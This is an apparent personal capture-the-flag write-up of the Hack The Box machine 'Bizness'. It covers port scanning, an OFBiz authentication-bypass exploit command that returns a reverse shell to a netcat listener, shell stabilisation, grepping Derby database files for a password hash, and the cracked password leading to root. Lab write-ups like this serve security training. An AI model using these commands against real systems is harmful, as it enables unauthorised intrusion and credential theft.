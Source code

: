 # Bizness -htb(Compi)

nmap:
	22, 80, 443

**Directory busting**:
	/accounting/control/login ---> login page (OFBiz) ----> google search leads to an authentication bypass exploit.

but to use the POC , we need to use java 11, my current java verson was 17.
Had to google how to change:
		
		sudo apt install openjdk-11-jdk  
		sudo update-alternatives --config java ---> then select java 11 from the options.


Then use the exploit written by Abdelhameed Ghazy.
	use the Lhost:Lport  option
	`python3 exploit.py https://bizness.htb/ shell 10.10.14.26:6666` to get a rev shell back to your : `nc -nvlp 6666`
Get USER.


Shell as Ofbiz ENUM:
--
linpeas:
	?? 
	no joy.

to get stable shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
Ctrl+Z  
stty raw -echo; fg
```



Derby is the database used:

using this in the directory (`/opt/ofbiz/runtime/data/derby/ofbiz/seg0`):
 `grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .`
 found the password hash:
	`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`

Now i need to decrypt it :



password : `monkeybizness`

Change user to root and PWNED!

